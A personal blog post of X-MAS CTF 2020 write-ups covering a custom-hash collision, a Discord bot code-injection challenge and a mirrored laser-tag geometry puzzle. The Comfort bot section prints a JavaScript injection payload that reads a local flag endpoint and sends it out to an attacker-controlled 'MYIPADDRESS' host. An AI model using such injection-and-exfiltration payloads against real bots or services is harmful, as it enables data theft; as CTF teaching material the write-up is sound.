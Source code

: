 ```yaml
---
layout: post
title:  "X-MAS CTF writeups"
date:   2020-12-17 12:59:36 +0200
categories: ctf
---
```


These are the writeups for the [X-MAS CTF 2020 by HTsP](https://xmas.htsp.ro/home) challenges that I personally solved.


## Help a Santa helper?

In this challenge you need to find hash collisions for a custom hashing algorithm. After passing the initial challenge using instructions from [here](https://security.stackexchange.com/questions/223157/how-can-i-find-a-sha-256-hash-with-a-given-suffix-using-hashcat) we are presented a menu:

```
Good, you can continue!
Hello, thanks for answering my call, this time we have to break into Krampus' server and recover a stolen flag.
We have to solve a hash collision problem to get into the server.
Sadly, we're on a hurry and you only have 2 actions you can make until we get detected.
Choose what you want to do:
1. hash a message
2. provide a collision
3. exit
```
The hashing algorithm is given in the challenge and it’s using AES and XOR to calculate the hash in 16 byte blocks:

Let’s first hash a 16 byte message, which is the length of and AES block. If we use “00000000000000000000000000000000” as the first hash the output will be directly from the AES algorithm, something like “6ea8be2…1e692df”. We can then calculate the next hash as 3 AES block as follows:

Let’s again use “0000000…0000000” as the first block so the self.hash will be the same as in the first message “6ea8be2…1e692df”. Let’s the set the hash from first message as the second block. It will then get XORed to zero in AES() call which produces the same value as in the previous block. The final hash will then be “6ea8be2…1e692df” XOR “6ea8be2…1e692df” which is zero. Now the algorithm is back to inital state for the third and final round when we again use “0000000…0000000” as the third block which produces exactly the same hash as the first message a.ka. a collision.

As a generalisation the colliding messages are MSG1 and MSG1+HASH_FOR_MSG1+MSG1. You can find the source code to get past the initial challenge below but I chose to enter the hashes manually since there was no time limit.

{% gist a1812fdfb9845cd8d6b28ae2a1f23ce8 %}


## Comfort bot

In this challenge we need to get a Discord bot to reveal the flag. The source code is provided as part of the challenge and analysing it quickly reveals a code injection exploit:

We can test the vulnerability by sending the bots commands like:
```
comf foo ','
comf foo ',1,'
comf foo ',1,2,'
````

Which translate to function calls like `cleverbot.SendAI('foo',1,2,'')` This takes advantage of the fact that Javascript is a loosely typed language and we can supply any number of arguments to the function. After we verify that the bot answers to these commands we can add JS code to get the flag and make an HTTP request to our own server:

```javascript
window.foo=new XMLHttpRequest();
window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS/"+this.responseText)}
window.turl = "http://localhost/flag";
window.foo.open("GET",window.turl,true);
window.foo.send();
```
With this code and the fact that function arguments are evaluated left to right the final command to send to the bot is:

```
comf foo',window.foo=new XMLHttpRequest(),window.foo.onreadystatechange = function() {window.open("http://MYIPADDRESS"http://localhost/flag",window.foo.open("GET",window.turl,true),window.foo.send(),'
```


## Krampus' Lazer Tag

 In this challenge you need play 50 rounds of Lazer tag against Krampus in 30 seconds. The instructions are given when you connect to the bot:
![Krampus instructions]({{ site.url }}/assets/krampus/krampustext.png)

For each round we get both Krampus and player positions in x∈(0,1), y∈(0,1). Since the walls are made out of mirrors that reflect lazer we need to consider reflections when placing the lazer blockers. I googled around how to best calculate reflections until I found this page on Google that demonstrates how to simplify the calculations. The main principle is to reduce the reflections to straight lines, which is illustrated in the image below.

<p align="center">
  <img width="460" height="300" src="https://i.stack.imgur.com/tUC3y.gif">
</p>


I setup a Jupyter notebook to visualise the situation and calculate the reflected player positions up to two reflections away:
![Krampus instructions]({{ site.url }}/assets/krampus/krampus1.png)

I then calculate the midpoints where the lazer converges and that will be the blocker 
positions.

![Krampus instructions]({{ site.url }}/assets/krampus/krampus2.png)

Next step is to calculate the reflected positions of the traps back to the [0,1],[0,1] coordinates. They overlap very closely to 16 positions but it’s still necessary to round up the coordinates so that there are only 16 positions since that is how many blockers we are given.

![Krampus instructions]({{ site.url }}/assets/krampus/krampus3.png)

Take a look at the notebook for more details: [LazerTag Jupyter notebook](https://github.com/j11b0/lazertag/blob/main/LazerTag.ipynb) or view the final code:

{% gist 3183bdb9f38fe52a3947064ed0e3bd4a %}
